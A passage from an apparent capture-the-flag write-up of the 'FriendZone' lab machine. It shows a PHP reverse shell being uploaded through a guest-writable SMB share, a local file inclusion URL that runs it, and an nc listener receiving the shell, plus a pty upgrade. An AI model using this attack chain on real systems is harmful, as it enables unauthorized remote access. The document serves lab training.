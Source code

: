 I also dumped the `upload.php` source code and saw that the upload thing is just a troll since it doesn't do anything.

```php
<?php

// not finished yet -- friendzone admin !

if(isset($_POST["image"])){

echo "Uploaded successfully !<br>";
echo time()+3600;
}else{

echo "WHAT ARE YOU TRYING TO DO HOOOOOOMAN !";

}

?>
```

### Getting a shell with PHP

The `Development` share I saw earlier is writable by the guest user so I can upload a PHP reverse shell in there and use the LFI to trigger it. The full path of the share is `/etc/Development` as indicated in the nmap script output.

```
# smbclient -U "" //10.10.10.123/Development
Enter HTB\'s password: 
Try "help" to get a list of possible commands.
smb: \> put shell.php
putting file shell.php as \shell.php (184.9 kb/s) (average 184.9 kb/s)
smb: \> 
```

I trigger the shell with the following request: `https://administrator1.friendzone.red/dashboard.php?image_id=a.jpg&pagename=/etc/Development/shell`

```
# nc -lvnp 5555
listening on [any] 5555 ...
connect to [10.10.14.23] from (UNKNOWN) [10.10.10.123] 36974
Linux FriendZone 4.15.0-36-generic #39-Ubuntu SMP Mon Sep 24 16:19:09 UTC 2018 x86_64 x86_64 x86_64 GNU/Linux
 23:16:59 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ python -c 'import pty;pty.spawn("/bin/bash")'
www-data@FriendZone:/$
```

Found other credentials in the `/var/www` directory:

